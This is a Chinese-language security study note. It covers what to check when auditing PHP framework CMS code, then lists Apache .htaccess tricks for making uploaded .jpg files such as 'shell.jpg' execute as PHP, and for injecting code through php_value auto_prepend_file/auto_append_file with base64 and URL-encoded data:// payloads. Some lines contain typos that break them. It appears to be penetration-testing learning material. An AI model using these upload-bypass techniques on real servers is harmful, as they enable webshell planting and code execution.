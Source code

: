 了解基于框架的cms代码审计的一些思路,目前了解过的php框架有thinkphp和laravel,在审计这些框架cms要关注的点:

- 应用路由 了解cms主要功能site map
- 控制器controller 功能具体实现 重点审计部分
- 中间件middleware 关注授权和鉴权的实现
- 第三方库 composer安装的第三方插件是否存在可以用部分composer.json
- 配置 config


## .htaccess

apache服务器提供的一种针对目录的改变配置的方案,作用域当前目录及子目录

### SetHandler

指定匹配的文件强制使用指定的处理器解析

下面配置当前目录下及其子目录下所有文件都会当做php解析

```xml
SetHandler application/x-httpd-php

<FilesMatch "shell.jpg">
Sethandler application/x-httpd-php
</Eilesmatch >
```

### AddType

可以将给定的文件扩展名映射到指定的内容类型

将jpg文件当作php来解析

```xml
AddType application/x-httpd-php .jpg
```

### php_value

当php作为模块配置在Apache时: .htaccess可以修改php的配置

.htaccess 的 php_value 只能用于 PHP_INI_ALL 或 PHP_INI_PERDIR 类型的指令

解析当前目录下的php文件前 会自动解析包含head.jpg内容

```xml
php_value auto_prepend_file head.jpg
```

### auto_prepend_file和auto_append_file

使用php伪协议达到代码执行,注意使用base64加密和url编码

```xml
php_value auto_append_file data://text/plain;base64,PD9waHAgcGhwaW5mbygpOz8+
php_value auto_append_file data://text/plian,%3c%3fphp+phpinfo()%3b%3f%3e
```

